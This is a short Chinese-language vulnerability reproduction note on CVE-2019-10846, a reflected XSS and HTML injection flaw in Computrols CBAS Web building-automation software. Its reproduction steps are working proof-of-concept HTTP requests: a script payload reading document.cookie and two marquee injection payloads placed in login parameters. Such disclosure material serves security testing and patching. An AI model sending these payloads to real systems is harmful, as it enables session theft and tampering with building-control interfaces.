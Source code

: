 ```yaml
---
title: "（CVE-2019-10846）Computrols CBAS Web反射型xss"
id: zhfly2851
---
```


# （CVE-2019-10846）Computrols CBAS Web反射型xss

## 一、漏洞简介

Computrols CBAS Web是美国Computrols公司的一套楼宇自动化系统

## 二、漏洞影响

Computrols CBAS Web<=19.0.0

## 三、复现过程

### 1、

```
POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1 `username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email` 
```

### 2、

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62` 
```

### 3、

```
GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1 
```